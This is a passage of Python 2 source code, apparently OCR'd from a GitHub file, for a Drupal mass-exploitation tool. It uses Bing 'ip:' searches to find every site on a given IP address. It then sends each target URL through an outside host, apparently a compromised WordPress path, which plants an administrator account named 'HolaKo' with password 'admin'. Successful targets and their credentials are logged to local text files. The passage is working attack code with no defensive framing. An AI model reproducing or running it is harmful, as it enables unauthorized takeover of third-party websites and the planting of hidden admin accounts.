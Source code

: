                 print "[+] Testing At " + site
                resp = urllib2.urlopen(
                    'http://crig-alda.ro/wp-admin/css/index2.php?url=' + site + '&submit=submit')
                read = resp.read()
                if "User: HolaKo" in read:
                    print "Exploit found =>" + site

                    print "user:HolaKo\npass:admin"
                    a = open('up.txt', 'a')
                    a.write(site + '\n')
                    a.write("user:" + user + "\npass:" + pwd + "\n")
                else:
                    print "[-] Expl Not Found:( "

            except Exception as ex:
                print ex
                sys.exit(0)

        # Drupal Server ExtraCtor


def getdrupal():
    ip = raw_input('Enter The Ip:  ')
    page = 1
    sites = list()
    while page <= 50:

        url = "http://www.bing.com/search?q=ip%3A" + ip + \
            "+node&go=Valider&qs=ds&form=QBRE&first=" + str(page)
        req = urllib2.Request(url)
        opreq = urllib2.urlopen(req).read()
        findurl = re.findall(
            '<div class="b_title"><h2><a href="(.*?)" h=', opreq)
        page += 1

        for url in findurl:
            split = urlparse(url)
            site = split.netloc
            if site not in sites:
                print site
                sites.append(site)

        # Drupal Mass List Exploiter


def drupallist():
    listop = raw_input("Enter The list Txt: ")
    fileopen = open(listop, 'r')
    content = fileopen.readlines()
    for i in content:
        url = i.strip()
        try:
            openurl = urllib2.urlopen(
                'http://crig-alda.ro/wp-admin/css/index2.php?url=' + url + '&submit=submit')
            readcontent = openurl.read()
            if "Success" in readcontent:
                print "[+]Success =>" + url
                print "[-]username:HolaKo\n[-]password:admin"
                save = open('drupal.txt', 'a')
                save.write(
                    url + "\n" + "[-]username:HolaKo\n[-]password:admin\n")
